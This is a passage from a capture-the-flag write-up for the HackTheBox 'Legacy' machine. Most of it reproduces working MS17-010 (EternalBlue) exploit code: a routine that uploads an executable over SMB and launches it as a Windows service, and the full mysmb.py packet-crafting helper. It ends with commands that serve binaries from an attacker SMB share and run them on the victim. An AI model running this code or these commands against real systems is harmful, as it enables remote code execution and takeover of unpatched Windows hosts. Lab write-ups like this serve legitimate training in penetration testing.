			userAndGroupCountOffset = info['TOKEN_USER_GROUP_CNT_OFFSET_SP0_SP1']
			userAndGroupsAddrOffset = info['TOKEN_USER_GROUP_ADDR_OFFSET_SP0_SP1']

			# try with hack offsets
			success, userAndGroupCount, userAndGroupsAddr = validate_token_offset(info, tokenData, userAndGroupCountOffset, userAndGroupsAddrOffset)

		# still no good. Abort because something is wrong
		if not success:
			print('Bad TOKEN_USER_GROUP offsets. Abort > BSOD')
			sys.exit()

		# token parsed and validated
		return userAndGroupsAddr, userAndGroupCount, userAndGroupsAddrOffset, userAndGroupCountOffset

	def random_generator(size=6, chars=string.ascii_uppercase + string.digits):
		return ''.join(random.choice(chars) for x in range(size))

	def send_and_execute(conn, arch):
		smbConn = conn.get_smbconnection()

		filename = "%s.exe" % random_generator(6)
		print "Sending file %s..." % filename


	    #In some cases you should change remote file location
	    #For example:
	    #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
		#service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
		
		smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
		service_exec(conn, r'cmd /c c:\%s' % filename)


	def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
		with open(localSrc, 'rb') as fp:
			smbConn.putFile(remoteDrive + '$', remotePath, fp.read)

	# based on impacket/examples/serviceinstall.py
	# Note: using Windows Service to execute command same as how psexec works
	def service_exec(conn, cmd):
		import random
		import string
		from impacket.dcerpc.v5 import transport, srvs, scmr
		
		service_name = ''.join([random.choice(string.letters) for i in range(4)])

		# Setup up a DCE SMBTransport with the connection already in place
		rpcsvc = conn.get_dce_rpc('svcctl')
		rpcsvc.connect()
		rpcsvc.bind(scmr.MSRPC_UUID_SCMR)
		svcHandle = None
		try:
			print("Opening SVCManager on %s....." % conn.get_remote_host())
			resp = scmr.hROpenSCManagerW(rpcsvc)
			svcHandle = resp['lpScHandle']
			
			# First we try to open the service in case it exists. If it does, we remove it.
			try:
				resp = scmr.hROpenServiceW(rpcsvc, svcHandle, service_name+'\x00')
			except Exception as e:
				if str(e).find('ERROR_SERVICE_DOES_NOT_EXIST') == -1:
					raise e  # Unexpected error
			else:
				# It exists, remove it
				scmr.hRDeleteService(rpcsvc, resp['lpServiceHandle'])
				scmr.hRCloseServiceHandle(rpcsvc, resp['lpServiceHandle'])
			os.path
			print('Creating service %s.....' % service_name)
			resp = scmr.hRCreateServiceW(rpcsvc, svcHandle, service_name + '\x00', service_name + '\x00', lpBinaryPathName=cmd + '\x00')
			serviceHandle = resp['lpServiceHandle']
			
			if serviceHandle:
				# Start service
				try:
					print('Starting service %s.....' % service_name)
					scmr.hRStartServiceW(rpcsvc, serviceHandle)
					# is it really need to stop?
					# using command line always makes starting service fail because SetServiceStatus() does not get called
					#print('Stoping service %s.....' % service_name)
					#scmr.hRControlService(rpcsvc, serviceHandle, scmr.SERVICE_CONTROL_STOP)
				except Exception as e:
					print(str(e))
				
				print('Removing service %s.....' % service_name)
				scmr.hRDeleteService(rpcsvc, serviceHandle)
				scmr.hRCloseServiceHandle(rpcsvc, serviceHandle)
		except Exception as e:
			print("ServiceExec Error on: %s" % conn.get_remote_host())
			print(str(e))
		finally:
			if svcHandle:
				scmr.hRCloseServiceHandle(rpcsvc, svcHandle)

		rpcsvc.disconnect()


	if len(sys.argv) < 2:
		print("{} <ip> <executable_file> [port] [pipe_name]".format(sys.argv[0]))
		sys.exit(1)

	target = sys.argv[1]
	lfile = sys.argv[2]
	port = 445
	pipe_name = None if len(sys.argv) < 5 else sys.argv[4]

	try:
		if sys.argv[3] != '':
			port = int(sys.argv[3])
	except:
		pass

	if not os.path.isfile(lfile):
	    print("File not found %s" % lfile)
	    sys.exit(1)

	exploit(target, port, pipe_name)
	print('Done')
	```

=== "mysmb.py"

	``` python
	# impacket SMB extension for MS17-010 exploit.
	# this file contains only valid SMB packet format operation.
	from impacket import smb, smbconnection
	from impacket.dcerpc.v5 import transport
	from struct import pack
	import os
	import random


	def getNTStatus(self):
		return (self['ErrorCode'] << 16) | (self['_reserved'] << 8) | self['ErrorClass']
	setattr(smb.NewSMBPacket, "getNTStatus", getNTStatus)

	############# SMB_COM_TRANSACTION_SECONDARY (0x26)
	class SMBTransactionSecondary_Parameters(smb.SMBCommand_Parameters):
		structure = (
			('TotalParameterCount','<H=0'),
			('TotalDataCount','<H'),
			('ParameterCount','<H=0'),
			('ParameterOffset','<H=0'),
			('ParameterDisplacement','<H=0'),
			('DataCount','<H'),
			('DataOffset','<H'),
			('DataDisplacement','<H=0'),
	)

	# Note: impacket-0.9.15 struct has no ParameterDisplacement
	############# SMB_COM_TRANSACTION2_SECONDARY (0x33)
	class SMBTransaction2Secondary_Parameters(smb.SMBCommand_Parameters):
		structure = (
			('TotalParameterCount','<H=0'),
			('TotalDataCount','<H'),
			('ParameterCount','<H=0'),
			('ParameterOffset','<H=0'),
			('ParameterDisplacement','<H=0'),
			('DataCount','<H'),
			('DataOffset','<H'),
			('DataDisplacement','<H=0'),
			('FID','<H=0'),
	)

	############# SMB_COM_NT_TRANSACTION_SECONDARY (0xA1)
	class SMBNTTransactionSecondary_Parameters(smb.SMBCommand_Parameters):
		structure = (
			('Reserved1','3s=""'),
			('TotalParameterCount','<L'),
			('TotalDataCount','<L'),
			('ParameterCount','<L'),
			('ParameterOffset','<L'),
			('ParameterDisplacement','<L=0'),
			('DataCount','<L'),
			('DataOffset','<L'),
			('DataDisplacement','<L=0'),
			('Reserved2','<B=0'),
		)


	def _put_trans_data(transCmd, parameters, data, noPad=False):
		# have to init offset before calling len()
		transCmd['Parameters']['ParameterOffset'] = 0
		transCmd['Parameters']['DataOffset'] = 0
		
		# SMB header: 32 bytes
		# WordCount: 1 bytes
		# ByteCount: 2 bytes
		# Note: Setup length is included when len(param) is called
		offset = 32 + 1 + len(transCmd['Parameters']) + 2
		
		transData = ''
		if len(parameters):
			padLen = 0 if noPad else (4 - offset % 4 ) % 4
			transCmd['Parameters']['ParameterOffset'] = offset + padLen
			transData = ('\x00' * padLen) + parameters
			offset += padLen + len(parameters)
		
		if len(data):
			padLen = 0 if noPad else (4 - offset % 4 ) % 4
			transCmd['Parameters']['DataOffset'] = offset + padLen
			transData += ('\x00' * padLen) + data
		
		transCmd['Data'] = transData
		

	origin_NewSMBPacket_addCommand = getattr(smb.NewSMBPacket, "addCommand")
	login_MaxBufferSize = 61440
	def NewSMBPacket_addCommand_hook_login(self, command):
		# restore NewSMBPacket.addCommand
		setattr(smb.NewSMBPacket, "addCommand", origin_NewSMBPacket_addCommand)
		
		if isinstance(command['Parameters'], smb.SMBSessionSetupAndX_Extended_Parameters):
			command['Parameters']['MaxBufferSize'] = login_MaxBufferSize
		elif isinstance(command['Parameters'], smb.SMBSessionSetupAndX_Parameters):
			command['Parameters']['MaxBuffer'] = login_MaxBufferSize
		
		# call original one
		origin_NewSMBPacket_addCommand(self, command)

	def _setup_login_packet_hook(maxBufferSize):
		# setup hook for next NewSMBPacket.addCommand if maxBufferSize is not None
		if maxBufferSize is not None:
			global login_MaxBufferSize
			login_MaxBufferSize = maxBufferSize
			setattr(smb.NewSMBPacket, "addCommand", NewSMBPacket_addCommand_hook_login)


	class MYSMB(smb.SMB):
		def __init__(self, remote_host, remote_port=445, use_ntlmv2=True, timeout=8):
			self.__use_ntlmv2 = use_ntlmv2
			self._default_tid = 0
			self._pid = os.getpid() & 0xffff
			self._last_mid = random.randint(1000, 20000)
			if 0x4000 <= self._last_mid <= 0x4110:
				self._last_mid += 0x120
			self._pkt_flags2 = 0
			self._last_tid = 0  # last tid from connect_tree()
			self._last_fid = 0  # last fid from nt_create_andx()
			self._smbConn = None
			smb.SMB.__init__(self, remote_host, remote_host, sess_port=remote_port, timeout=timeout)

		def set_pid(self, pid):
			self._pid = pid

		def get_pid(self):
			return self._pid

		def set_last_mid(self, mid):
			self._last_mid = mid

		def next_mid(self):
			self._last_mid += random.randint(1, 20)
			if 0x4000 <= self._last_mid <= 0x4110:
				self._last_mid += 0x120
			return self._last_mid

		def get_smbconnection(self):
			if self._smbConn is None:
				self.smbConn = smbconnection.SMBConnection(self.get_remote_host(), self.get_remote_host(), existingConnection=self, manualNegotiate=True)
			return self.smbConn

		def get_dce_rpc(self, named_pipe):
			smbConn = self.get_smbconnection()
			rpctransport = transport.SMBTransport(self.get_remote_host(), self.get_remote_host(), filename='\\'+named_pipe, smb_connection=smbConn)
			return rpctransport.get_dce_rpc()

		# override SMB.neg_session() to allow forcing ntlm authentication
		def neg_session(self, extended_security=True, negPacket=None):
			smb.SMB.neg_session(self, extended_security=self.__use_ntlmv2, negPacket=negPacket)

		# to use any login method, SMB must not be used from multiple thread
		def login(self, user, password, domain='', lmhash='', nthash='', ntlm_fallback=True, maxBufferSize=None):
			_setup_login_packet_hook(maxBufferSize)
			smb.SMB.login(self, user, password, domain, lmhash, nthash, ntlm_fallback)

		def login_standard(self, user, password, domain='', lmhash='', nthash='', maxBufferSize=None):
			_setup_login_packet_hook(maxBufferSize)
			smb.SMB.login_standard(self, user, password, domain, lmhash, nthash)

		def login_extended(self, user, password, domain='', lmhash='', nthash='', use_ntlmv2=True, maxBufferSize=None):
			_setup_login_packet_hook(maxBufferSize)
			smb.SMB.login_extended(self, user, password, domain, lmhash, nthash, use_ntlmv2)

		def connect_tree(self, path, password=None, service=smb.SERVICE_ANY, smb_packet=None):
			self._last_tid = smb.SMB.tree_connect_andx(self, path, password, service, smb_packet)
			return self._last_tid

		def get_last_tid(self):
			return self._last_tid

		def nt_create_andx(self, tid, filename, smb_packet=None, cmd=None, shareAccessMode=smb.FILE_SHARE_READ|smb.FILE_SHARE_WRITE, disposition=smb.FILE_OPEN, accessMask=0x2019f):
			self._last_fid = smb.SMB.nt_create_andx(self, tid, filename, smb_packet, cmd, shareAccessMode, disposition, accessMask)
			return self._last_fid

		def get_last_fid(self):
			return self._last_fid

		def set_default_tid(self, tid):
			self._default_tid = tid

		def set_pkt_flags2(self, flags):
			self._pkt_flags2 = flags

		def send_echo(self, data):
			pkt = smb.NewSMBPacket()
			pkt['Tid'] = self._default_tid
			
			transCommand = smb.SMBCommand(smb.SMB.SMB_COM_ECHO)
			transCommand['Parameters'] = smb.SMBEcho_Parameters()
			transCommand['Data'] = smb.SMBEcho_Data()

			transCommand['Parameters']['EchoCount'] = 1
			transCommand['Data']['Data'] = data
			pkt.addCommand(transCommand)

			self.sendSMB(pkt)
			return self.recvSMB()

		def do_write_andx_raw_pipe(self, fid, data, mid=None, pid=None, tid=None):
			writeAndX = smb.SMBCommand(smb.SMB.SMB_COM_WRITE_ANDX)
			writeAndX['Parameters'] = smb.SMBWriteAndX_Parameters_Short()
			writeAndX['Parameters']['Fid'] = fid
			writeAndX['Parameters']['Offset'] = 0
			writeAndX['Parameters']['WriteMode'] = 4  # SMB_WMODE_WRITE_RAW_NAMED_PIPE
			writeAndX['Parameters']['Remaining'] = 12345  # can be any. raw named pipe does not use it
			writeAndX['Parameters']['DataLength'] = len(data)
			writeAndX['Parameters']['DataOffset'] = 32 + len(writeAndX['Parameters']) + 1 + 2 + 1 # WordCount(1), ByteCount(2), Padding(1)
			writeAndX['Data'] = '\x00' + data  # pad 1 byte
			
			self.send_raw(self.create_smb_packet(writeAndX, mid, pid, tid))
			return self.recvSMB()

		def create_smb_packet(self, smbReq, mid=None, pid=None, tid=None):
			if mid is None:
				mid = self.next_mid()
			
			pkt = smb.NewSMBPacket()
			pkt.addCommand(smbReq)
			pkt['Tid'] = self._default_tid if tid is None else tid
			pkt['Uid'] = self._uid
			pkt['Pid'] = self._pid if pid is None else pid
			pkt['Mid'] = mid
			flags1, flags2 = self.get_flags()
			pkt['Flags1'] = flags1
			pkt['Flags2'] = self._pkt_flags2 if self._pkt_flags2 != 0 else flags2
			
			if self._SignatureEnabled:
				pkt['Flags2'] |= smb.SMB.FLAGS2_SMB_SECURITY_SIGNATURE
				self.signSMB(pkt, self._SigningSessionKey, self._SigningChallengeResponse)
				
			req = str(pkt)
			return '\x00'*2 + pack('>H', len(req)) + req  # assume length is <65536

		def send_raw(self, data):
			self.get_socket().send(data)

		def create_trans_packet(self, setup, param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			if maxSetupCount is None:
				maxSetupCount = len(setup)
			if totalParameterCount is None:
				totalParameterCount = len(param)
			if totalDataCount is None:
				totalDataCount = len(data)
			if maxParameterCount is None:
				maxParameterCount = totalParameterCount
			if maxDataCount is None:
				maxDataCount = totalDataCount
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION)
			transCmd['Parameters'] = smb.SMBTransaction_Parameters()
			transCmd['Parameters']['TotalParameterCount'] = totalParameterCount
			transCmd['Parameters']['TotalDataCount'] = totalDataCount
			transCmd['Parameters']['MaxParameterCount'] = maxParameterCount
			transCmd['Parameters']['MaxDataCount'] = maxDataCount
			transCmd['Parameters']['MaxSetupCount'] = maxSetupCount
			transCmd['Parameters']['Flags'] = 0
			transCmd['Parameters']['Timeout'] = 0xffffffff
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['Setup'] = setup
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_trans(self, setup, param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_trans_packet(setup, param, data, mid, maxSetupCount, totalParameterCount, totalDataCount, maxParameterCount, maxDataCount, pid, tid, noPad))
			return self.recvSMB()

		def create_trans_secondary_packet(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION_SECONDARY)
			transCmd['Parameters'] = SMBTransactionSecondary_Parameters()
			transCmd['Parameters']['TotalParameterCount'] = len(param)
			transCmd['Parameters']['TotalDataCount'] = len(data)
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['ParameterDisplacement'] = paramDisplacement
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['DataDisplacement'] = dataDisplacement
			
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_trans_secondary(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_trans_secondary_packet(mid, param, paramDisplacement, data, dataDisplacement, pid, tid, noPad))

		def create_trans2_packet(self, setup, param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			if maxSetupCount is None:
				maxSetupCount = len(setup)
			if totalParameterCount is None:
				totalParameterCount = len(param)
			if totalDataCount is None:
				totalDataCount = len(data)
			if maxParameterCount is None:
				maxParameterCount = totalParameterCount
			if maxDataCount is None:
				maxDataCount = totalDataCount
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2)
			transCmd['Parameters'] = smb.SMBTransaction2_Parameters()
			transCmd['Parameters']['TotalParameterCount'] = totalParameterCount
			transCmd['Parameters']['TotalDataCount'] = totalDataCount
			transCmd['Parameters']['MaxParameterCount'] = maxParameterCount
			transCmd['Parameters']['MaxDataCount'] = maxDataCount
			transCmd['Parameters']['MaxSetupCount'] = len(setup)
			transCmd['Parameters']['Flags'] = 0
			transCmd['Parameters']['Timeout'] = 0xffffffff
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['Setup'] = setup
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_trans2(self, setup, param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_trans2_packet(setup, param, data, mid, maxSetupCount, totalParameterCount, totalDataCount, maxParameterCount, maxDataCount, pid, tid, noPad))
			return self.recvSMB()

		def create_trans2_secondary_packet(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2_SECONDARY)
			transCmd['Parameters'] = SMBTransaction2Secondary_Parameters()
			transCmd['Parameters']['TotalParameterCount'] = len(param)
			transCmd['Parameters']['TotalDataCount'] = len(data)
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['ParameterDisplacement'] = paramDisplacement
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['DataDisplacement'] = dataDisplacement
			
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_trans2_secondary(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_trans2_secondary_packet(mid, param, paramDisplacement, data, dataDisplacement, pid, tid, noPad))

		def create_nt_trans_packet(self, function, setup='', param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			if maxSetupCount is None:
				maxSetupCount = len(setup)
			if totalParameterCount is None:
				totalParameterCount = len(param)
			if totalDataCount is None:
				totalDataCount = len(data)
			if maxParameterCount is None:
				maxParameterCount = totalParameterCount
			if maxDataCount is None:
				maxDataCount = totalDataCount
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
			transCmd['Parameters'] = smb.SMBNTTransaction_Parameters()
			transCmd['Parameters']['MaxSetupCount'] = maxSetupCount
			transCmd['Parameters']['TotalParameterCount'] = totalParameterCount
			transCmd['Parameters']['TotalDataCount'] = totalDataCount
			transCmd['Parameters']['MaxParameterCount'] = maxParameterCount
			transCmd['Parameters']['MaxDataCount'] = maxDataCount
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['Function'] = function
			transCmd['Parameters']['Setup'] = setup
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_nt_trans(self, function, setup='', param='', data='', mid=None, maxSetupCount=None, totalParameterCount=None, totalDataCount=None, maxParameterCount=None, maxDataCount=None, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_nt_trans_packet(function, setup, param, data, mid, maxSetupCount, totalParameterCount, totalDataCount, maxParameterCount, maxDataCount, pid, tid, noPad))
			return self.recvSMB()

		def create_nt_trans_secondary_packet(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			transCmd = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT_SECONDARY)
			transCmd['Parameters'] = SMBNTTransactionSecondary_Parameters()
			transCmd['Parameters']['TotalParameterCount'] = len(param)
			transCmd['Parameters']['TotalDataCount'] = len(data)
			transCmd['Parameters']['ParameterCount'] = len(param)
			transCmd['Parameters']['ParameterDisplacement'] = paramDisplacement
			transCmd['Parameters']['DataCount'] = len(data)
			transCmd['Parameters']['DataDisplacement'] = dataDisplacement
			_put_trans_data(transCmd, param, data, noPad)
			return self.create_smb_packet(transCmd, mid, pid, tid)

		def send_nt_trans_secondary(self, mid, param='', paramDisplacement=0, data='', dataDisplacement=0, pid=None, tid=None, noPad=False):
			self.send_raw(self.create_nt_trans_secondary_packet(mid, param, paramDisplacement, data, dataDisplacement, pid, tid, noPad))

		def recv_transaction_data(self, mid, minLen):
			data = ''
			while len(data) < minLen:
				recvPkt = self.recvSMB()
				if recvPkt['Mid'] != mid:
					continue
				resp = smb.SMBCommand(recvPkt['Data'][0])
				data += resp['Data'][1:]  # skip padding
				#print(len(data))
			return data
	```

## Privilege Escalation

### Windows verify privileges using SMB

Create smb server in kali

``` bash
sudo python /usr/local/bin/smbserver.py public /usr/share/windows-resources/binaries/
```

Run cmd.exe in windows machine

``` bash
\\10.10.14.4\public\whoami.exe
```


## Reference

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>